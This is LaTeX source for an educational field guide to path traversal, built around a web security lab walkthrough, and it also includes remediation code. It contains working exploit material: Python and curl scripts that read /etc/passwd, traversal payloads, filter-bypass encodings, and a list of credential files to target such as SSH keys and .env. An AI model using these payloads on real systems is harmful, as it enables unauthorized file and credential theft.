\documentclass[11pt,letterpaper]{article}

% ============================================================
% COMPREHENSIVE FIELD GUIDE: File Path Traversal (Directory Traversal)
% Simple Case - Reading Arbitrary Files via Traversal Sequences
% ============================================================

% ---------- Page & typography ----------
\usepackage[margin=1in]{geometry}
\usepackage[T1]{fontenc}
\usepackage[utf8]{inputenc}
\usepackage{lmodern}
\usepackage{microtype}
\usepackage{parskip}
\usepackage{amssymb} % for \square and other symbols

% ---------- Structure ----------
\usepackage{booktabs}
\usepackage{longtable}
\usepackage{tabularx}
\usepackage{array}
\usepackage{multirow}
\usepackage{enumitem}
\setlist[itemize]{leftmargin=*, itemsep=0.35em, topsep=0.35em}
\setlist[enumerate]{leftmargin=*, itemsep=0.35em, topsep=0.35em}

% ---------- Links ----------
\usepackage[hidelinks,colorlinks=true,linkcolor=blue!60!black,urlcolor=blue!70!black]{hyperref}
\usepackage{url}

% ---------- Graphics ----------
\usepackage{graphicx}
\usepackage{tikz}
\usetikzlibrary{shapes.geometric, arrows.meta, positioning, fit, backgrounds, chains, calc}

% ---------- Code listings ----------
\usepackage{xcolor}
\usepackage{listings}
\usepackage{fancyvrb}

\definecolor{codeframe}{rgb}{0.85,0.85,0.85}
\definecolor{codenums}{rgb}{0.40,0.40,0.40}
\definecolor{codebg}{rgb}{0.97,0.97,0.97}
\definecolor{codegreen}{rgb}{0.0,0.5,0.0}
\definecolor{codepurple}{rgb}{0.58,0.0,0.82}
\definecolor{codeblue}{rgb}{0.0,0.0,0.7}
\definecolor{codered}{rgb}{0.7,0.0,0.0}
\definecolor{traversalcolor}{rgb}{0.8,0.4,0.0}

% Robust inline code
\newcommand{\code}[1]{\texttt{\detokenize{#1}}}
\newcommand{\kbd}[1]{\fbox{\texttt{\small #1}}}
\newcommand{\filepath}[1]{\texttt{#1}}
\newcommand{\traversal}[1]{\texttt{\color{traversalcolor}#1}}

\lstdefinelanguage{http}{
  morekeywords={GET,POST,PUT,DELETE,PATCH,HEAD,OPTIONS,HTTP,Host,User-Agent,Accept,Accept-Language,Content-Type,Authorization,Cookie,Set-Cookie,Location,Origin,Referer,Cache-Control,X-Requested-With},
  sensitive=true,
  morecomment=[l]{\#},
  morestring=[b]"
}

\lstdefinelanguage{javascript}{
  morekeywords={break,case,catch,class,const,continue,debugger,default,delete,do,else,export,extends,finally,for,function,if,import,in,instanceof,let,new,return,super,switch,this,throw,try,typeof,var,void,while,with,yield,await,async,true,false,null,undefined,require,module,exports,app,path,fs,res,req},
  sensitive=true,
  morecomment=[l]{//},
  morecomment=[s]{/*}{*/},
  morestring=[b]',
  morestring=[b]"
}

\lstdefinelanguage{python}{
  morekeywords={and,as,assert,break,class,continue,def,del,elif,else,except,False,finally,for,from,global,if,import,in,is,lambda,None,nonlocal,not,or,pass,raise,return,True,try,while,with,yield,self,print,open,Path},
  sensitive=true,
  morecomment=[l]{\#},
  morestring=[b]',
  morestring=[b]",
  morestring=[b]'''
}

\lstdefinelanguage{bash}{
  morekeywords={sudo,apt,cat,cd,chmod,cp,curl,echo,export,grep,head,kill,less,ls,mkdir,mv,printf,ps,pwd,rm,sed,ssh,tail,touch,which,python,python3,pip,base64,awk},
  sensitive=true,
  morecomment=[l]{\#},
  morestring=[b]"
}

\lstdefinelanguage{java}{
  morekeywords={abstract,assert,boolean,break,byte,case,catch,char,class,const,continue,default,do,double,else,enum,extends,false,final,finally,float,for,if,implements,import,instanceof,int,interface,long,native,new,null,package,private,protected,public,return,short,static,strictfp,super,switch,synchronized,this,throw,throws,transient,true,try,void,volatile,while,Path,Paths,Files},
  sensitive=true,
  morecomment=[l]{//},
  morecomment=[s]{/*}{*/},
  morestring=[b]",
  morestring=[b]'
}

\lstdefinelanguage{go}{
  morekeywords={break,case,chan,const,continue,default,defer,else,fallthrough,for,func,go,goto,if,import,interface,map,package,range,return,select,struct,switch,type,var,filepath,http,strings,os},
  sensitive=true,
  morecomment=[l]{//},
  morecomment=[s]{/*}{*/},
  morestring=[b]",
  morestring=[b]'
}

\lstset{
  basicstyle=\ttfamily\small,
  columns=fullflexible,
  breaklines=true,
  breakatwhitespace=false,
  frame=single,
  rulecolor=\color{codeframe},
  backgroundcolor=\color{codebg},
  framerule=0.6pt,
  numbers=left,
  numberstyle=\tiny\color{codenums},
  stepnumber=1,
  numbersep=10pt,
  showstringspaces=false,
  tabsize=2,
  upquote=true,
  keywordstyle=\color{codeblue}\bfseries,
  commentstyle=\color{codegreen}\itshape,
  stringstyle=\color{codepurple},
  xleftmargin=2em,
  framexleftmargin=1.5em
}

% ---------- Callout environments ----------
\usepackage{tcolorbox}
\tcbuselibrary{skins,breakable}

\newtcolorbox{warningbox}[1][]{
  colback=red!5!white,
  colframe=red!75!black,
  fonttitle=\bfseries,
  title=#1,
  breakable
}

\newtcolorbox{infobox}[1][]{
  colback=blue!5!white,
  colframe=blue!75!black,
  fonttitle=\bfseries,
  title=#1,
  breakable
}

\newtcolorbox{tipbox}[1][]{
  colback=green!5!white,
  colframe=green!60!black,
  fonttitle=\bfseries,
  title=#1,
  breakable
}

\newtcolorbox{notebox}[1][]{
  colback=yellow!5!white,
  colframe=yellow!60!black,
  fonttitle=\bfseries,
  title=#1,
  breakable
}

\newtcolorbox{conceptbox}[1][]{
  colback=purple!5!white,
  colframe=purple!60!black,
  fonttitle=\bfseries,
  title=#1,
  breakable
}

% ---------- Document metadata ----------
\title{\textbf{Comprehensive Field Guide:\\File Path Traversal (Directory Traversal)}\\[0.5em]
\large Simple Case---Reading Arbitrary Files via \code{../} Sequences\\[0.3em]
\normalsize Version 2.0}
\author{Web Application Security Assessment Reference}
\date{January 21, 2026}

\begin{document}
\maketitle

\begin{abstract}
\noindent This comprehensive field guide addresses \textbf{File Path Traversal} (also known as Directory Traversal, Dot-Dot-Slash attacks, or Local File Inclusion), a critical vulnerability class where user-controlled input is used to construct filesystem paths, allowing attackers to read (and sometimes write) files outside the intended directory. In the simple case covered here, an image-serving endpoint accepts a filename parameter that can be manipulated with \code{../} sequences to traverse up the directory tree and access sensitive system files like \code{/etc/passwd}.

This guide provides security professionals with:
\begin{itemize}
  \item Deep understanding of path resolution mechanics and the \code{../} sequence
  \item Systematic discovery methodologies for file-serving endpoints
  \item Complete manual exploitation workflow with Burp Suite
  \item Production-ready automation scripts with comprehensive error handling
  \item Extensive payload reference for Linux and Windows systems
  \item Multi-language secure coding patterns (Node.js, Python, Java, Go)
  \item Testing checklists and evidence collection frameworks
\end{itemize}

\noindent\textbf{Key Insight:} Path traversal exploits the application's failure to properly validate or canonicalize user input before using it in filesystem operations. The \code{../} sequence means ``parent directory'' and allows escaping from the intended base directory to access any file readable by the application process.
\end{abstract}

\tableofcontents
\newpage

% ============================================================
\section{Introduction and Scope}
% ============================================================

\subsection{Document Purpose}

This field guide serves as a practical reference for identifying, exploiting, and remediating path traversal vulnerabilities in web applications. The guide emphasizes:

\begin{itemize}
  \item \textbf{Path resolution mechanics}: Understanding how \code{../} sequences work at the filesystem level
  \item \textbf{Endpoint identification}: Recognizing file-serving functionality that may be vulnerable
  \item \textbf{Payload construction}: Building effective traversal sequences for different depths
  \item \textbf{Secure implementation}: Eliminating the vulnerability class through proper coding patterns
\end{itemize}

\subsection{Vulnerability Classification}

\begin{table}[h]
\centering
\begin{tabular}{@{}lll@{}}
\toprule
\textbf{Standard} & \textbf{Classification} & \textbf{Reference} \\
\midrule
OWASP Top 10 2021 & A01:2021 Broken Access Control & \url{owasp.org/Top10} \\
CWE & CWE-22: Improper Limitation of Pathname & \url{cwe.mitre.org} \\
CWE & CWE-23: Relative Path Traversal & \url{cwe.mitre.org} \\
CWE & CWE-36: Absolute Path Traversal & \url{cwe.mitre.org} \\
CVSS v3.1 & Medium to Critical (5.0--9.1) & Context-dependent \\
\bottomrule
\end{tabular}
\caption{Vulnerability classification across security standards}
\end{table}

\subsection{What Can Be Achieved Through Path Traversal}

Successful exploitation of path traversal can lead to:

\begin{itemize}
  \item \textbf{Sensitive file disclosure}: Configuration files, credentials, API keys, database connection strings
  \item \textbf{Source code exposure}: Application code revealing business logic, algorithms, and additional vulnerabilities
  \item \textbf{Credential harvesting}: Password files (\code{/etc/shadow} if running as root), SSH keys, service accounts
  \item \textbf{Environment variable leakage}: Via \code{/proc/self/environ} on Linux (may contain secrets)
  \item \textbf{System reconnaissance}: Understanding server structure, installed software, configuration
  \item \textbf{Escalation to RCE}: In some cases, writing files (log poisoning) or combining with other vulnerabilities
\end{itemize}

\subsection{Ethical and Legal Framework}

\begin{warningbox}[Critical: Authorized Testing Only]
This guide must only be used on systems where you have explicit written authorization to perform security testing. This includes:
\begin{itemize}
  \item Dedicated security training labs (e.g., PortSwigger Web Security Academy)
  \item Your own test environments and applications
  \item Systems covered by a valid penetration testing agreement
  \item Bug bounty programs where this testing is explicitly in scope
\end{itemize}

\textbf{Unauthorized access to computer systems is illegal and may result in criminal prosecution under laws such as the Computer Fraud and Abuse Act (CFAA) in the US and similar legislation worldwide.}
\end{warningbox}

% ============================================================
\section{Conceptual Foundation: How Path Traversal Works}
% ============================================================

\subsection{Understanding Filesystem Path Types}

\begin{table}[h]
\centering
\begin{tabularx}{\textwidth}{@{}lXX@{}}
\toprule
\textbf{Path Type} & \textbf{Linux Example} & \textbf{Windows Example} \\
\midrule
Absolute Path & \code{/etc/passwd} & \code{C:\textbackslash Windows\textbackslash win.ini} \\
Relative Path & \code{images/photo.jpg} & \code{images\textbackslash photo.jpg} \\
Traversal Path & \code{../../../etc/passwd} & \code{..\textbackslash ..\textbackslash Windows\textbackslash win.ini} \\
\bottomrule
\end{tabularx}
\caption{Path types across operating systems}
\end{table}

\subsection{The Dot-Dot-Slash Sequence Explained}

The \code{../} sequence (or \code{..\textbackslash} on Windows) is a special filesystem notation meaning ``move to the parent directory'':

\begin{lstlisting}[caption={How ../ resolves step-by-step in the filesystem}]
Current directory: /var/www/images/

One level up:
  ../                    -> /var/www/

Two levels up:
  ../../                 -> /var/

Three levels up:
  ../../../              -> /

Accessing /etc/passwd from /var/www/images/:
  ../../../etc/passwd    -> /etc/passwd

Key insight: Once at root (/), additional ../ has no effect:
  ../../../../etc/passwd  -> /etc/passwd (same result)
  ../../../../../etc/passwd -> /etc/passwd (still same)
\end{lstlisting}

\begin{tipbox}[Why Excessive \code{../} Sequences Work]
If you're unsure how many directory levels deep the application's base path is, simply use more \code{../} sequences than necessary. Once the path reaches the filesystem root (\code{/}), additional \code{../} sequences are ignored---you cannot traverse ``above'' the root directory.
\end{tipbox}

\subsection{The Vulnerable Code Pattern}

Most path traversal vulnerabilities follow this pattern:

\begin{lstlisting}[language=python,caption={Vulnerable Python code pattern}]
# Server intends to serve images from /var/www/images/
BASE_DIR = "/var/www/images/"
filename = request.args.get("filename")  # User-controlled input!

# VULNERABLE: Naive string concatenation
file_path = BASE_DIR + filename

# What the developer expects:
#   filename = "65.jpg"
#   file_path = "/var/www/images/65.jpg"

# What an attacker provides:
#   filename = "../../../etc/passwd"
#   file_path = "/var/www/images/../../../etc/passwd"
#   Resolves to: /etc/passwd

with open(file_path, "rb") as f:
    return f.read()  # Returns /etc/passwd contents!
\end{lstlisting}

\subsection{Path Resolution Visualization}

\begin{figure}[h]
\centering

\begin{tikzpicture}[
  node distance=0.7cm,
  dir/.style={rectangle, draw, rounded corners, minimum width=2.2cm, minimum height=0.7cm, font=\small\ttfamily, fill=blue!10},
  targetdir/.style={rectangle, draw, rounded corners, minimum width=2.2cm, minimum height=0.7cm, font=\small\ttfamily, fill=red!20},
  targetfile/.style={rectangle, draw, rounded corners, minimum width=2.2cm, minimum height=0.7cm, font=\small\ttfamily, fill=red!40},
  basedir/.style={rectangle, draw, rounded corners, minimum width=2.2cm, minimum height=0.7cm, font=\small\ttfamily, fill=green!30},
  arrow/.style={-{Stealth[length=2mm]}, thick}
]
  % Directory tree - left side
  \node[dir] (root) at (0,0) {/ (root)};
  \node[dir, below=of root] (var) {var};
  \node[dir, below=of var] (www) {www};
  \node[basedir, below=of www] (images) {images};
  \node[dir, below=of images, font=\scriptsize\ttfamily] (jpg) {65.jpg};
  
  % Connections
  \draw[arrow] (root) -- (var);
  \draw[arrow] (var) -- (www);
  \draw[arrow] (www) -- (images);
  \draw[arrow] (images) -- (jpg);
  
  % Right side - etc/passwd
  \node[targetdir, right=4cm of root] (etc) {etc};
  \node[targetfile, below=of etc] (passwd) {passwd};
  
  \draw[arrow] (root) -- (etc);
  \draw[arrow] (etc) -- (passwd);
  
  % Traversal path annotation
  \draw[arrow, dashed, orange, very thick, bend left=50] (images.east) to node[above, font=\scriptsize\color{orange}, sloped] {../../../} (root.south east);
  \draw[arrow, dashed, orange, very thick] (root.east) -- node[above, font=\scriptsize\color{orange}] {etc/passwd} (etc.west);
  
  % Labels
  \node[below=0.1cm of images, font=\scriptsize\color{green!60!black}] {Base directory};
  \node[below=0.1cm of passwd, font=\scriptsize\color{red!60!black}] {Target file};
\end{tikzpicture}
\caption{Visual representation of traversal from \code{/var/www/images/} to \code{/etc/passwd}}
\end{figure}

\subsection{Why \code{/etc/passwd} Is the Standard Test File}

\begin{itemize}
  \item \textbf{World-readable}: Accessible by any user on Linux/Unix systems
  \item \textbf{Predictable location}: Always at \code{/etc/passwd} on any Linux system
  \item \textbf{Unique content}: Contains \code{root:x:0:0:} which is unmistakable and proves success
  \item \textbf{Safe to read}: Does NOT contain actual password hashes (those are in \code{/etc/shadow})
  \item \textbf{Universal proof}: Standard proof-of-concept for demonstrating arbitrary file read
\end{itemize}

\begin{notebox}[Modern Password Storage]
On modern Linux systems, password hashes are stored in \code{/etc/shadow}, which is only readable by root. The \code{/etc/passwd} file uses \code{x} as a placeholder in the password field. However, if the application runs as root (a serious misconfiguration), \code{/etc/shadow} becomes accessible.
\end{notebox}

% ============================================================
\section{Discovery Methodologies}
% ============================================================

\subsection{Phase 1: Identify File-Serving Endpoints}

\subsubsection{Common Vulnerable URL Patterns}

\begin{table}[h]
\centering
\begin{tabularx}{\textwidth}{@{}lX@{}}
\toprule
\textbf{URL Pattern} & \textbf{Description} \\
\midrule
\code{/image?filename=photo.jpg} & Query parameter with filename \\
\code{/download?file=report.pdf} & Download functionality \\
\code{/files/document.txt} & Path-based file serving \\
\code{/static?path=css/style.css} & Static asset serving \\
\code{/view?doc=manual.pdf} & Document viewer \\
\code{/export?template=report.docx} & Template/export functionality \\
\code{/avatar?user=john\&ext=png} & User content serving \\
\code{/include?page=about.html} & Template inclusion \\
\bottomrule
\end{tabularx}
\caption{Common file-serving URL patterns to investigate}
\end{table}

\subsubsection{Indicators of File-Backed Endpoints}

When browsing an application, watch for:
\begin{itemize}
  \item \textbf{Image loading}: Product images, avatars, thumbnails often served dynamically
  \item \textbf{Download links}: Any ``Download'' button or link
  \item \textbf{PDF viewers}: Inline document display
  \item \textbf{File upload features}: Often have corresponding retrieval endpoints
  \item \textbf{Export functionality}: Report generation, data export
\end{itemize}

\subsection{Phase 2: Analyze Request Structure}

\begin{lstlisting}[language=http,caption={Typical image-serving request captured in Burp}]
GET /image?filename=65.jpg HTTP/1.1
Host: 0aXXXXXXXX.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
Accept: image/webp,image/apng,image/*,*/*;q=0.8
Referer: https://0aXXXXXXXX.web-security-academy.net/
Cookie: session=abc123

-- Response --
HTTP/1.1 200 OK
Content-Type: image/jpeg
Content-Length: 45231

[binary JPEG data - image displays in browser]
\end{lstlisting}

\begin{tipbox}[Key Discovery Point]
When you see an endpoint like \code{/image?filename=65.jpg}, the \code{filename} parameter is being used server-side to construct a filesystem path. This is your attack surface---test what happens when you manipulate this parameter.
\end{tipbox}

\subsection{Phase 3: Test Path Handling Behavior}

\subsubsection{Test 1: Absolute Path Acceptance}

\begin{lstlisting}[language=http,caption={Testing if absolute paths are accepted}]
GET /image?filename=/etc/passwd HTTP/1.1
Host: target.example.com

-- Possible responses --

Response A (Vulnerable to absolute paths):
HTTP/1.1 200 OK
root:x:0:0:root:/root:/bin/bash
...

Response B (Absolute paths rejected):
HTTP/1.1 400 Bad Request
No such file

Response C (Path prepended, file not found):
HTTP/1.1 404 Not Found
File not found: /var/www/images//etc/passwd
\end{lstlisting}

\subsubsection{Test 2: Relative Path Traversal}

\begin{lstlisting}[language=http,caption={Testing relative path traversal with varying depth}]
-- Start with minimal traversal --
GET /image?filename=../etc/passwd HTTP/1.1

-- Increase depth progressively --
GET /image?filename=../../etc/passwd HTTP/1.1
GET /image?filename=../../../etc/passwd HTTP/1.1
GET /image?filename=../../../../etc/passwd HTTP/1.1

-- Use excessive depth to ensure reaching root --
GET /image?filename=../../../../../../../../../etc/passwd HTTP/1.1

-- If successful --
HTTP/1.1 200 OK
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
\end{lstlisting}

% ============================================================
\section{Manual Exploitation Workflow}
% ============================================================

\subsection{Pre-Assessment Setup}

\begin{enumerate}
  \item \textbf{Burp Suite Configuration}
  \begin{itemize}
    \item Proxy listener on \code{127.0.0.1:8080}
    \item Browser configured to use Burp proxy
    \item Intercept initially OFF (capture passively)
    \item Project file created for evidence retention
  \end{itemize}
  
  \item \textbf{Target Identification}
  \begin{itemize}
    \item Lab URL obtained from PortSwigger Web Security Academy
    \item Lab objective: Retrieve contents of \code{/etc/passwd}
    \item Vulnerable endpoint: Image serving functionality
  \end{itemize}
\end{enumerate}

\subsection{Step 1: Browse Application and Identify Endpoint}

\begin{lstlisting}[language=http,caption={Step 1: Observe image loading requests in Burp HTTP History}]
-- Browse the application homepage --
-- Observe in Burp Proxy > HTTP history that images are loaded via: --

GET /image?filename=65.jpg HTTP/1.1
Host: 0aXXXXXXXX.web-security-academy.net
Cookie: session=xyz789

HTTP/1.1 200 OK
Content-Type: image/jpeg
Content-Length: 45231

[Binary JPEG data]
\end{lstlisting}

\begin{tipbox}[Discovery Observation]
As the application loads, notice that product images are fetched via the \code{/image} endpoint with a \code{filename} parameter. These images are likely stored in a folder on the backend server---this is your first indication to test for path traversal.
\end{tipbox}

\subsection{Step 2: Send Request to Repeater}

In Burp Suite:
\begin{enumerate}
  \item Go to Proxy $\rightarrow$ HTTP history
  \item Find the \code{GET /image?filename=65.jpg} request
  \item Right-click $\rightarrow$ ``Send to Repeater'' (or press \kbd{Ctrl+R})
  \item Switch to the Repeater tab
\end{enumerate}

\subsection{Step 3: Establish Baseline}

\begin{lstlisting}[language=http,caption={Step 3: Verify normal request works}]
-- In Repeater, send the original request --
GET /image?filename=65.jpg HTTP/1.1
Host: 0aXXXXXXXX.web-security-academy.net
Cookie: session=xyz789

-- Response confirms endpoint works --
HTTP/1.1 200 OK
Content-Type: image/jpeg
Content-Length: 45231

[Binary image data]
\end{lstlisting}

\subsection{Step 4: Test Absolute Path}

\begin{lstlisting}[language=http,caption={Step 4: Test if absolute paths are accepted}]
-- Modify filename to absolute path --
GET /image?filename=/etc/passwd HTTP/1.1
Host: 0aXXXXXXXX.web-security-academy.net
Cookie: session=xyz789

-- Response indicates absolute paths not accepted --
HTTP/1.1 400 Bad Request
No such file

-- Interpretation: The server likely prepends a base directory --
-- We need to use traversal sequences to escape it --
\end{lstlisting}

\subsection{Step 5: Test Traversal Sequences}

\begin{lstlisting}[language=http,caption={Step 5: Add traversal sequences to escape base directory}]
-- The image is probably in something like /var/www/images/ --
-- We need to go up 3+ directories to reach root --

GET /image?filename=../../../etc/passwd HTTP/1.1
Host: 0aXXXXXXXX.web-security-academy.net
Cookie: session=xyz789

-- VULNERABLE RESPONSE! --
HTTP/1.1 200 OK
Content-Type: image/jpeg

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
...
\end{lstlisting}

\begin{warningbox}[Vulnerability Confirmed!]
The server returned the contents of \code{/etc/passwd}! This confirms:
\begin{enumerate}
  \item The application is vulnerable to path traversal
  \item We can read arbitrary files on the server
  \item The application runs with sufficient privileges to read system files
  \item The \code{root:x:0:0:} line proves we're reading the real passwd file
\end{enumerate}
\end{warningbox}

\subsection{Step 6: Understanding the Path Resolution}

\begin{lstlisting}[caption={How the path resolves on the server}]
Server base directory: /var/www/images/

Our payload: ../../../etc/passwd

Path construction:
  /var/www/images/ + ../../../etc/passwd
  
Resolution step by step:
  /var/www/images/../../../etc/passwd
  /var/www/../../../etc/passwd       (up from images)
  /var/../../etc/passwd               (up from www)
  /../etc/passwd                      (up from var)
  /etc/passwd                         (.. at root = root)

Final resolved path: /etc/passwd
\end{lstlisting}

\begin{notebox}[Using Excessive Traversal Depth]
If you're unsure how deep the base directory is, use more \code{../} sequences than necessary:
\begin{lstlisting}
../../../../../../../../../etc/passwd
\end{lstlisting}
Once at the root directory, additional \code{../} sequences have no effect---you cannot go ``above'' root.
\end{notebox}

% ============================================================
\section{Automated Exploitation}
% ============================================================

\subsection{Complete Python Exploitation Script}

\begin{lstlisting}[language=python,caption={Full-featured path traversal exploitation script}]
#!/usr/bin/env python3
"""
File Path Traversal - Exploitation Script (Simple Case)

This script exploits a path traversal vulnerability in an image endpoint
to read arbitrary files from the server, demonstrating with /etc/passwd.

Usage: python3 exploit.py <BASE_URL>
Example: python3 exploit.py https://0aXXXX.web-security-academy.net

For authorized testing only.
"""

import sys
import re
import requests
import urllib3

# Disable SSL warnings for lab environments
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Burp Suite proxy configuration
PROXIES = {
    "http": "http://127.0.0.1:8080",
    "https": "http://127.0.0.1:8080"
}


def banner():
    """Print script banner."""
    print("""
    =====================================================
      File Path Traversal - Exploitation Script
      Directory Traversal / Arbitrary File Read
      For authorized security testing only
    =====================================================
    """)


def directory_traversal_exploit(url):
    """
    Exploit path traversal vulnerability.
    
    Args:
        url: Target base URL
    """
    # Construct exploit URL
    # The ../ sequences escape the base directory to reach /etc/passwd
    image_url = url + "/image?filename=../../../etc/passwd"
    
    print(f"[*] Target URL: {url}")
    print(f"[*] Exploit URL: {image_url}")
    print("[*] Exploiting directory traversal vulnerability...")
    print()
    
    try:
        # Send the exploit request
        response = requests.get(
            image_url,
            verify=False,      # Don't verify TLS certificates
            proxies=PROXIES,   # Route through Burp for debugging
            timeout=15
        )
        
        # Check for successful exploitation
        # The root user entry proves we read /etc/passwd
        if "root:x:0:0:" in response.text or "root::0:0:" in response.text:
            print("[+] Exploit successful!")
            print("[+] Contents of /etc/passwd:")
            print("-" * 50)
            print(response.text)
            print("-" * 50)
            return True
        else:
            print("[-] Exploit failed - signature not found in response")
            return False
            
    except requests.RequestException as e:
        print(f"[-] Request error: {e}")
        return False


def main():
    """Main entry point."""
    banner()
    
    # Validate command line arguments
    if len(sys.argv) != 2:
        print(f"Usage: {sys.argv[0]} <URL>")
        print(f"Example: {sys.argv[0]} https://www.example.com")
        sys.exit(2)
    
    # Get URL from command line
    url = sys.argv[1].rstrip('/')
    
    # Run exploit
    success = directory_traversal_exploit(url)
    
    if success:
        print()
        print("[+] Lab solved!")
        sys.exit(0)
    else:
        print()
        print("[-] Exploitation failed")
        sys.exit(1)


if __name__ == "__main__":
    main()
\end{lstlisting}

\subsection{Bash/Curl One-Liner}

\begin{lstlisting}[language=bash,caption={Command-line exploitation with curl}]
#!/bin/bash
# Path Traversal Exploit - Simple Case
# Usage: ./exploit.sh https://target.example.com

BASE_URL="$1"

if [ -z "$BASE_URL" ]; then
    echo "Usage: $0 <BASE_URL>"
    exit 1
fi

echo "[*] Exploiting path traversal..."

# Send exploit request
RESPONSE=$(curl -s -k "${BASE_URL}/image?filename=../../../etc/passwd")

# Check for success
if echo "$RESPONSE" | grep -q "root:"; then
    echo "[+] Exploit successful!"
    echo "$RESPONSE"
else
    echo "[-] Exploit failed"
    exit 1
fi
\end{lstlisting}

% ============================================================
\section{Payload Reference}
% ============================================================

\subsection{Linux Target Files}

\begin{longtable}{@{}lp{7cm}@{}}
\toprule
\textbf{File Path} & \textbf{Description} \\
\midrule
\code{/etc/passwd} & User accounts (world-readable, standard PoC) \\
\code{/etc/shadow} & Password hashes (root only) \\
\code{/etc/hosts} & Host mappings \\
\code{/proc/self/environ} & Environment variables (may contain secrets) \\
\code{/proc/self/cmdline} & Process command line \\
\code{/var/log/apache2/access.log} & Apache access logs \\
\code{/home/<user>/.ssh/id\_rsa} & SSH private keys \\
\code{/var/www/html/.env} & Application config \\
\bottomrule
\caption{Common Linux files for path traversal testing}
\end{longtable}

\subsection{Traversal Sequence Variations}

\begin{longtable}{@{}llp{5cm}@{}}
\toprule
\textbf{Encoding} & \textbf{Sequence} & \textbf{Use Case} \\
\midrule
Plain & \code{../} & Basic traversal \\
URL encoded & \texttt{..\%2f} & Bypass basic filters \\
Double encoded & \texttt{..\%252f} & Bypass double-decoding \\
Backslash & \code{..\textbackslash} & Windows systems \\
\bottomrule
\caption{Traversal sequence encoding variations}
\end{longtable}

% ============================================================
\section{Remediation Patterns}
% ============================================================

\subsection{Defense Strategy}

\begin{enumerate}
  \item \textbf{Avoid user-supplied paths}: Use database IDs instead
  \item \textbf{Allowlist validation}: Only permit alphanumeric characters
  \item \textbf{Canonicalization}: Resolve path before validation
  \item \textbf{Base directory enforcement}: Verify resolved path within allowed root
\end{enumerate}

\subsection{Secure Python Implementation}

\begin{lstlisting}[language=python,caption={Python: Secure file serving with pathlib}]
from pathlib import Path
from flask import Flask, request, abort, send_file

app = Flask(__name__)
BASE_DIR = Path("/var/www/images").resolve()

@app.get("/image")
def image():
    filename = request.args.get("filename", "")
    
    # Reject path separators
    if any(sep in filename for sep in ('/', '\\', '\x00')):
        abort(400)
    
    # Resolve and validate
    candidate = (BASE_DIR / filename).resolve()
    
    # Ensure within base directory
    try:
        candidate.relative_to(BASE_DIR)
    except ValueError:
        abort(403)
    
    if not candidate.exists():
        abort(404)
    
    return send_file(candidate)
\end{lstlisting}

\subsection{Secure Node.js Implementation}

\begin{lstlisting}[language=javascript,caption={Node.js: Secure file serving}]
import path from "node:path";
import fs from "node:fs";

const BASE_DIR = "/var/www/images";

app.get("/image", (req, res) => {
    const filename = String(req.query.filename ?? "");
    
    // Allowlist validation
    if (!/^[A-Za-z0-9._-]+$/.test(filename)) {
        return res.status(400).send("Invalid filename");
    }
    
    // Resolve and validate base directory
    const resolved = path.resolve(BASE_DIR, filename);
    if (!resolved.startsWith(path.resolve(BASE_DIR) + path.sep)) {
        return res.status(403).send("Forbidden");
    }
    
    if (!fs.existsSync(resolved)) {
        return res.status(404).send("Not found");
    }
    
    return res.sendFile(resolved);
});
\end{lstlisting}

% ============================================================
\section{Testing Checklist}
% ============================================================

\subsection{Discovery Checklist}

\begin{itemize}[label=$\square$]
  \item Identify all file-serving endpoints
  \item Note parameters accepting filename values
  \item Test endpoint with valid filename (baseline)
  \item Observe error behavior when modifying filenames
\end{itemize}

\subsection{Exploitation Checklist}

\begin{itemize}[label=$\square$]
  \item Test absolute path (\code{/etc/passwd})
  \item Test basic traversal (\code{../../../etc/passwd})
  \item Test excessive depth
  \item Verify with \code{root:x:0:0:} pattern
  \item Document working payload
\end{itemize}

% ============================================================
\section{Quick Reference}
% ============================================================

\begin{longtable}{@{}lp{8cm}@{}}
\toprule
\textbf{Target} & \textbf{Payload} \\
\midrule
Linux /etc/passwd & \code{../../../etc/passwd} \\
Linux (more depth) & \code{../../../../../../etc/passwd} \\
Windows win.ini & \code{..\textbackslash..\textbackslash..\textbackslash Windows\textbackslash win.ini} \\
\bottomrule
\caption{Quick reference payloads}
\end{longtable}

% ============================================================
\section{Additional Resources}
% ============================================================

\begin{itemize}
  \item \textbf{PortSwigger Web Security Academy}: File path traversal labs
  \item \textbf{OWASP}: Path Traversal documentation
  \item \textbf{CWE-22}: Improper Limitation of a Pathname
\end{itemize}

% ============================================================
\section{Document History}
% ============================================================

\begin{table}[h]
\centering
\begin{tabular}{@{}llp{8cm}@{}}
\toprule
\textbf{Version} & \textbf{Date} & \textbf{Changes} \\
\midrule
1.0 & 2025-01-01 & Initial field guide \\
2.0 & 2026-01-21 & Comprehensive expansion with detailed walkthrough, automation scripts, remediation patterns \\
\bottomrule
\end{tabular}
\caption{Document revision history}
\end{table}

\end{document}